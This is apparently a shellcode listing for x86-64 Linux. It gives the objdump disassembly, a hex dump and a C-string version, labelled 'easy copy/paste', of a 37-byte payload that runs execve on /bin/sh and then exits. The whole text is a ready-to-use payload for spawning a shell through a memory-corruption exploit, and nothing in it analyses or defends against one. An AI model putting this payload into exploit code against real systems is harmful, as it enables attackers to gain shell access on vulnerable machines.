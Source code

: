 # objdump of the text section

shellcode:     file format elf64-x86-64  


Disassembly of section .text:  

0000000000401000 <_start>:  
  401000:	6a 3b                	push   $0x3b  
  401002:	58                   	pop    %rax  
  401003:	48 31 d2             	xor    %rdx,%rdx  
  401006:	48 bb 2f 2f 62 69 6e 	movabs $0x68732f6e69622f2f,%rbx  
  40100d:	2f 73 68   
  401010:	48 c1 eb 08          	shr    $0x8,%rbx  
  401014:	53                   	push   %rbx  
  401015:	54                   	push   %rsp  
  401016:	5f                   	pop    %rdi  
  401017:	52                   	push   %rdx  
  401018:	57                   	push   %rdi  
  401019:	54                   	push   %rsp  
  40101a:	5e                   	pop    %rsi  
  40101b:	0f 05                	syscall   
  40101d:	6a 3c                	push   $0x3c  
  40101f:	58                   	pop    %rax  
  401020:	48 31 ff             	xor    %rdi,%rdi  
  401023:	0f 05                	syscall   

# ShellCode in hexa

6a 3b 58 48 31 d2 48 bb
2f 2f 62 69 6e 2f 73 68
48 c1 eb 08 53 54 5f 52
57 54 5e 0f 05 6a 3c 58
48 31 ff 0f 05 

# Easy copy/paste to use in C language 

"\x6A\x3B\x58\x48\x31\xD2\x48"
"\xBB\x2F\x2F\x62\x69\x6E\x2F"
"\x73\x68\x48\xC1\xEB\x08\x53"
"\x54\x5F\x52\x57\x54\x5E\x0F"
"\x05\x6A\x3C\x58\x48\x31\xFF\x0F\x05"
